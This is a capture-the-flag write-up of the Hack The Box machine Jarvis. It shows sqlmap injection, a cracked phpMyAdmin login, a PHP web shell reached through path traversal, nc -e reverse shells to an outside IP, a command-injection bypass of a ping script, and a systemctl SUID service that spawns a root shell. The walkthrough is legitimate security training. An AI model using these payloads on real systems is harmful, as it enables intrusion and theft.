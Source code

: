 ```yaml
---
"title": "Hack The Box - Jarvis"
"date": 2020-04-04
"tags": ["linux", "medium", "sudo", "setuid", "sqli", "phpmyadmin", "python"]
"keywords": ["linux", "medium", "sudo", "setuid", "sqli", "phpmyadmin", "python"]
"categories": "HackTheBox OSCP-Like"
"author": "Ghostbyt3"
"description": "We are going to pwn Jarvis from Hack The Box."
"featured_image": "/img/htb-jarvis/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox OSCP-Like - Writeup"
---
```



![Untitled](/img/htb-jarvis/1.png)

We are going to pwn Jarvis from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/194](https://www.hackthebox.eu/home/machines/profile/194)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.13 (94%), Linux 3.16 (94%), Linux 3.18 (94%), Linux 4.2 (94%), Linux 3.12 (93%), Linux 3.8 - 3.11 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:

It looks like a normal webpage. So better we try bruteforcing the directories.[br/](br/)
![Untitled](/img/htb-jarvis/2.png)

Got some details on the bottom of the page.[br/](br/)
![Untitled](/img/htb-jarvis/3.png)

## Gobuster Result:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.143
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/03 19:14:12 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
===============================================================
2020/04/03 19:15:59 Finished
===============================================================
```

``/phpmyadmin``[br/](br/)
![Untitled](/img/htb-jarvis/4.png)
Tried with default credentials ``Username: root Password: [null]`` but failed so better we try to enumerate more.

In the webpage clicking on ``Rooms`` it redirects to ``rooms-suites.php`` and by clicking any of those rooms it redirects to ``/room.php`` with a parameter called cod that holds the room number.[br/](br/)
![Untitled](/img/htb-jarvis/5.png)

So I started SQLMAP with the url. There is some kind of filter which Ban us for 90 seconds.
![Untitled](/img/htb-jarvis/6.png)

>sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3

![Untitled](/img/htb-jarvis/7.png)
And it give me some payload. It Looks like SQL Injection using UNION is there.

### What is SQL Injection using UNION?
>When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database.

> sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3 --password

Got ``DBadmin`` hash.[br/](br/)
![Untitled](/img/htb-jarvis/9.png)

I cracked that using [CrackStation](https://crackstation.net/)[br/](br/)
![Untitled](/img/htb-jarvis/10.png)

``/phpmyadmin``[br/](br/)

``DBadmin:imissyou``[br/](br/)
![Untitled](/img/htb-jarvis/11.png)

Found Phpmyadmin's version so search for any exploit available.[br/](br/)
![Untitled](/img/htb-jarvis/12.png)

>[https://www.exploit-db.com/exploits/44928](https://www.exploit-db.com/exploits/44928)

According to the exploit we need to inject the payload in SQL Query.[br/](br/)
```select '[?php system($_GET["cmd"]);?](?php system($_GET["cmd"]);?)'```
![Untitled](/img/htb-jarvis/13.png)

![Untitled](/img/htb-jarvis/14.png)

Now we need to get the Session ID of phpMyAdmin.[br/](br/)
![Untitled](/img/htb-jarvis/15.png)

``http://supersecurehotel.htb/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_8271hfci8stuji9h69a2huedmt4dt75e&cmd=ls``
![Untitled](/img/htb-jarvis/16.png)

Its working lets try to get reverse shell!

## Shell as www-data

``nc -e /bin/sh 10.10.14.19 1234``

I got the shell as ``www-data``[br/](br/)
![Untitled](/img/htb-jarvis/17.png)


I started with ``sudo -l`` and looks like we can run ``simpler.py`` as pepper without password.
![Untitled](/img/htb-jarvis/18.png)

Lets see how ``simpler.py`` works[br/](br/)
```
python simpler.py
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    
```
While checking the python code, I found a Interesting thing:
```
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

It takes the input and ping the command we send and it also forbidden ``['&', ';', '-', '`', '||', '|']`` these symbols to prevent us to do some other commands.But they didn't filtered ``$``, we can use this by ``$(command)``. I did ``$(bash)`` and got the user ``pepper``.

```
$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: 127.0.0.1 $(bash)
127.0.0.1 $(bash)
pepper@jarvis:/var/www/Admin-Utilities$ whoami
whoami
pepper@jarvis:/var/www/Admin-Utilities$
pepper
```

## Privilege Escalation

Started my enumeration script and found there is a SUID binary.[br/](br/)
![Untitled](/img/htb-jarvis/19.png)

I checked [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/), According to that we need to create a service that executes a file of our choice when it enables.
I created a service called ``test.service`` in my machine and uploaded that to the box.

``test.service``
```
[Service]
Type=oneshot
ExecStart=/bin/sh -c "nc -e /bin/sh 10.10.14.19 5555"
[Install]
WantedBy=multi-user.target
```

Uploaded the script to the box and gave executable permission. Now we need to link the service first and then enable the service which executes it.[br/](br/)
![Untitled](/img/htb-jarvis/20.png)

Started my listener[br/](br/)
![Untitled](/img/htb-jarvis/21.png) [br/](br/)
I'm Root

